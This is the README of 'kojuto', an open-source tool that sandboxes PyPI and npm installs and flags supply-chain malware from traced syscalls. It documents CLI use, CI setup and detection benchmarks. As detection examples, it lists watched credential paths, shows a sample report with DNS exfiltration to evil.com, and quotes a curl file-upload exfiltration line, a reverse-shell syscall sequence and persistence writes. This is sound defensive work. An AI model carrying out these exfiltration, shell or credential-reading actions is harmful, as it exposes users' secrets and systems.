

# kojuto

[](https://github.com/RalianENG/kojuto/actions/workflows/ci.yml)
[](https://codecov.io/gh/RalianENG/kojuto)
[](https://goreportcard.com/report/github.com/RalianENG/kojuto)
[](https://opensource.org/licenses/MIT)

> Caught you. — EDR for your dependencies.

[Remember Mar 30th 2026.](https://cloud.google.com/blog/topics/threat-intelligence/north-korea-threat-actor-targets-axios-npm-package)

An EDR for package installations — monitors syscalls during install and import to detect supply chain attacks. Supports PyPI and npm ecosystems.



## How It Works

1. **Download** — Fetch the target package to the host (network allowed)
2. **Isolate** — Run installation inside a hardened Docker container with network isolation
3. **Install + Monitor** — Record `connect`, `sendto`, `sendmsg`, `sendmmsg`, `bind`, `listen`, `accept`, `execve`, `openat`, `rename`, `dup2`, and `sendfile` syscalls via strace (or eBPF)
4. **Import + Monitor** — Import/require the package under 3 simulated OS identities (Linux, Windows, macOS) with time shifted +30 days via `libfaketime` to trigger platform-gated and date-gated payloads
5. **Report** — Output findings as JSON

The sandbox is intentionally seeded with realistic artifacts to provoke malicious behavior:

- Fake credential files (`~/.ssh/id_rsa`, `~/.aws/credentials`, `~/.git-credentials`, etc.)
- CI and developer environment variables (`CI=true`, `GITHUB_TOKEN`, `AWS_ACCESS_KEY_ID`, etc.)

All values are randomly generated per scan to prevent signature-based evasion and ensure unique execution environments.

`openat` detects credential access (`.ssh/`, `.gnupg/`, `.aws/`, `/etc/shadow`, `/proc/self/environ`, `.netrc`, `.git-credentials`, `.docker/config.json`, `.config/gh/`), `rename` detects trusted binary replacement, `bind`/`listen`/`accept` detect backdoor server setup, and DNS tunneling detection extracts query domains from `sendto` payloads to flag high-entropy subdomains used for data exfiltration. `sendfile` is traced for forensic purposes but not parsed into structured events.

Well-behaved packages typically do not make unexpected network connections, spawn unrelated processes, access credential files, or modify trusted binaries during install or import. Any such activity is treated as suspicious and surfaced for review.

## Quick Start

```bash
# Build
make build

# Build sandbox image
make sandbox-image

# Scan a PyPI package
./kojuto scan requests

# Scan an npm package
./kojuto scan lodash -e npm

# Scan all dependencies from a file
./kojuto scan -f requirements.txt
./kojuto scan -f package.json

# Scan a specific version
./kojuto scan requests --version 2.31.0

# Output to file
./kojuto scan requests -o report.json

# Explicitly use eBPF (full syscall coverage; requires root or capabilities + kernel 5.8+)
sudo ./kojuto scan requests --probe-method ebpf

# Run eBPF without sudo (after granting capabilities)
sudo ./scripts/setup-caps.sh ./kojuto
./kojuto scan requests --probe-method ebpf

# Use gVisor runtime for stronger isolation (masks /proc/1/cgroup, mountinfo)
./kojuto scan requests --runtime runsc

# Set scan timeout per package
./kojuto scan requests --timeout 10m

# Scan and generate pinned dependency file (all packages must be clean)
./kojuto scan -f requirements.txt --pin requirements-locked.txt
./kojuto scan -f package.json -e npm --pin package-pinned.json

# Scan a local package file (e.g. malware sample from Datadog/GuardDog)
./kojuto scan --local ./malware-1.0.0.whl
./kojuto scan --local ./evil-pkg-2.0.0.tgz -e npm

# Scan a directory of local packages
./kojuto scan --local ./samples/
```

### Flags

| Flag | Description |
|------|-------------|
| `-v, --version` | Package version to scan (default: latest) |
| `-o, --output` | Output file path (default: stdout) |
| `-e, --ecosystem` | `pypi` / `npm` (default: `pypi`) |
| `-f, --file` | Dependency file to scan (`requirements.txt`, `package.json`, or any `*.txt`/`*.json`) |
| `--pin` | Output pinned dependency file after all-clean batch scan (requires `-f`) |
| `--local` | Scan a local package file (`.whl`, `.tgz`) or directory instead of downloading |
| `--runtime` | Container runtime: default (runc) or `runsc` (gVisor) |
| `--probe-method` | `auto` / `ebpf` / `strace` / `strace-container` (default: `auto`) |
| `--timeout` | Scan timeout per package (default: `5m`) |
| `--config` | Config file path (default: `kojuto.yml` in current directory) |

### Exit Codes

| Code | Meaning |
|------|---------|
| 0 | Clean — no suspicious activity |
| 1 | Error — scan failed |
| 2 | Suspicious or inconclusive — suspicious events detected or probe data was lost |

## Report Format

```json
{
  "package": "example-package",
  "version": "1.0.0",
  "ecosystem": "pypi",
  "timestamp": "2026-04-01T12:00:00Z",
  "verdict": "suspicious",
  "probe_method": "strace-container",
  "events": [
    {
      "timestamp": "2026-04-01T12:00:01Z",
      "pid": 1234,
      "syscall": "connect",
      "comm": "python3",
      "family": 2,
      "dst_addr": "203.0.113.50",
      "dst_port": 443
    },
    {
      "timestamp": "2026-04-01T12:00:02Z",
      "pid": 1235,
      "syscall": "execve",
      "comm": "/tmp/payload",
      "cmdline": "/tmp/payload --exfil"
    },
    {
      "timestamp": "2026-04-01T12:00:03Z",
      "pid": 1236,
      "syscall": "openat",
      "file_path": "/home/dev/.ssh/id_rsa",
      "open_flags": "O_RDONLY"
    },
    {
      "timestamp": "2026-04-01T12:00:04Z",
      "pid": 1237,
      "syscall": "rename",
      "src_path": "/tmp/python3",
      "dst_path": "/usr/local/bin/python3"
    },
    {
      "timestamp": "2026-04-01T12:00:05Z",
      "pid": 1238,
      "syscall": "sendto",
      "dst_addr": "8.8.8.8",
      "dst_port": 53,
      "family": 2,
      "dns_query": "aGVsbG8gd29ybGQ.evil.com"
    }
  ]
}
```

| Verdict | Exit Code | Meaning |
|---------|-----------|---------|
| `clean` | 0 | No suspicious activity detected during install or import |
| `suspicious` | 2 | Suspicious events detected — review the `events` array |
| `inconclusive` | 2 | Probe data was lost (buffer overflow) — treat as failure |

## GitHub Actions

> **Security**: Pin to a full commit SHA to prevent tag-tampering attacks.
> Use [Dependabot](https://docs.github.com/en/code-security/dependabot) to keep the SHA up to date automatically:
>
> ```yaml
> # .github/dependabot.yml
> version: 2
> updates:
>   - package-ecosystem: "github-actions"
>     directory: "/"
>     schedule:
>       interval: "weekly"
> ```

```yaml
# Scan a single package
- uses: RalianENG/kojuto@39cea4e39ddda9f30613be36a22dcc9ec475f7f6  # v0.4.0
  with:
    package: your-dependency
    version: '2.31.0'        # optional
    ecosystem: pypi           # optional: pypi, npm (default: pypi)
    probe-method: auto        # optional: auto, ebpf, strace, strace-container
    timeout: 5m               # optional (default: 5m)

# Scan all dependencies from a file
- uses: RalianENG/kojuto@39cea4e39ddda9f30613be36a22dcc9ec475f7f6  # v0.4.0
  with:
    file: requirements.txt    # or package.json
    pin: locked.txt           # optional: generate pinned file if all clean

# Scan a local package file
- uses: RalianENG/kojuto@39cea4e39ddda9f30613be36a22dcc9ec475f7f6  # v0.4.0
  with:
    local: ./suspicious-1.0.0.whl
```

## Requirements

- Docker
- Go 1.25+ (build from source; required by dependencies)
- Linux, macOS, or Windows (via Docker Desktop)
- Root or CAP_BPF + CAP_PERFMON for `--probe-method=ebpf` (use `scripts/setup-caps.sh` to avoid sudo)
- gVisor (`runsc`) for `--runtime=runsc` (optional, stronger isolation)

## Documentation

- [Specification](docs/SPECIFICATION.md)
- [日本語ドキュメント](docs/README_ja.md)

## Design Philosophy

kojuto does not rely solely on passive syscall observation. It actively creates conditions that encourage malicious behavior to surface:

- **Honeypot credentials** — fake but realistic files and tokens that trigger harvesting logic
- **CI environment signals** — environment variables that activate CI-gated payloads
- **Time-shifted execution** — `libfaketime` advances the clock to trigger date-gated bombs
- **Multi-OS identity** — simulated platform identities to defeat OS-gated payloads

This approach detects environment-aware and delayed-execution supply chain attacks that would remain dormant in a sterile sandbox.

## Detection Benchmarks

Validated against 300 randomly sampled malicious packages from [Datadog's malicious-software-packages-dataset](https://github.com/DataDog/malicious-software-packages-dataset) (seed=42, reproducible) and 70 known-clean packages.

| Metric | Result |
|--------|--------|
| True Positive Rate | **100%** (61/61 installable malicious packages detected) |
| False Positive Rate | **0%** (0/70 clean packages flagged) |
| Batch screening speed | **50 PyPI packages in 98s** (single sandbox) |

Of the 300 malicious samples, 238 failed to install (dependencies already removed from PyPI) and 1 timed out — expected for archived malware. All 61 that installed successfully were detected.

### Detected attack categories

| Category | Examples | Detection method |
|----------|----------|-----------------|
| C2 communication | `aiogram-types-v3` → `147.45.124.42:80`, `airio` → DNS exfil | `connect`/`sendto` to external IPs |
| Credential theft | `axios-attack-demo` → `.ssh/id_rsa`, `.aws/credentials`, `.git-credentials` | `openat` on ~40 sensitive paths |
| Reverse shell | `connect → dup2(fd, 0) → dup2(fd, 1) → execve /bin/sh` | `dup2` redirecting stdin/stdout |
| Persistence | Write to `.bashrc`, `.zshrc`, `.profile`, `crontab` | `openat` with `O_WRONLY`/`O_RDWR` |
| Data exfiltration | `a1rn` → `curl -F a=@/flag <IP>` | `execve` with `curl`/`wget` |
| Code execution | `advpruebitaa` → `type nul > prueba11.txt`, `aio3` → `start python3` | `execve` with inline `-c`/`-e` flags |
| Payload drop | `axios-attack-demo` → `python3 /tmp/ld.py` | `execve` of `/tmp` binaries |

### Configuration

Sensitive path patterns are customizable via `kojuto.yml` (see [`kojuto.example.yml`](kojuto.example.yml)):

```yaml
sensitive_paths:
  include:
    - "/.config/custom-app/"
  exclude:
    - "/.bashrc"   # if your packages legitimately read shell config
```

### False positive verification

50 popular PyPI packages (flask, django, requests, cryptography, pydantic, etc.) and 20 npm packages (lodash, express, axios, etc.) scanned with zero false positives.

## Security

See [SECURITY.md](SECURITY.md).

## License

[MIT](LICENSE)